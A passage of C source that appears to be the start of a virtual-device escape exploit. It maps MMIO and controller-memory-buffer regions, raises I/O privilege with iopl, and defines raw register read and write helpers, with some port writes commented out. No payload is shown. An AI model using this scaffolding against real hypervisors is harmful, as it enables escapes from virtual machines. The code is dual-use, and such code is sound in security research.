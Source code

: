 ```
        if (mlock(mmio_base, mmio_size) < 0) puts("[X] mlock at mmio"), exit(EXIT_FAILURE);
        cmb_base  = mmap(0, cmb_size , PROT_READ|PROT_WRITE, MAP_SHARED, fd, cmb_addr );
        if (cmb_base < 0)  puts("[X] mmio_init at cmb"), exit(EXIT_FAILURE);
        if (mlock(cmb_base, cmb_size) < 0) puts("[X] mlock at cmb"), exit(EXIT_FAILURE);
        printf("[+] mmio_base: %#p\n", mmio_base);
        printf("[+] cmb_base: %#p\n", cmb_base);
}
 
uint32_t mmio_read(uint64_t offset)
{
        return *(uint32_t*)(mmio_base + offset);
}
 
void mmio_write(uint64_t offset, uint64_t val)
{
        *(uint64_t*)(mmio_base + offset) = val;
}
 
uint32_t cmb_read(uint64_t offset)
{
        return *(uint32_t*)(cmb_base + offset);
}
 
void cmb_write(uint64_t offset, uint32_t val)
{
        *(uint32_t*)(cmb_base + offset) = val;
}
 
void pmio_init()
{
        if (iopl(3) < 0) puts("[X] pmio_init"), exit(EXIT_FAILURE);
}
 
uint32_t pmio_read(uint32_t addr)
{
        return inl(pmio_base + (addr - 0x230));
}
 
void pmio_writel(uint32_t addr, uint32_t val)
{
        outl(val, pmio_base + (addr - 0x230));
}
 
void pmio_writew(uint32_t addr, uint32_t val)
{
        outw(val, pmio_base + (addr - 0x230));
}
 
void pmio_writeb(uint32_t addr, uint32_t val)
{
        outb(val, pmio_base + (addr - 0x230));
}
 
int main(int argc, char** argv, char** envp)
{
        mmio_init();
        pmio_init();
        /*
        puts("[+] outl");
        pmio_writel(0x240, 0x38);
        puts("[+] outw");
        pmio_writew(0x240, 0x38);
        */
```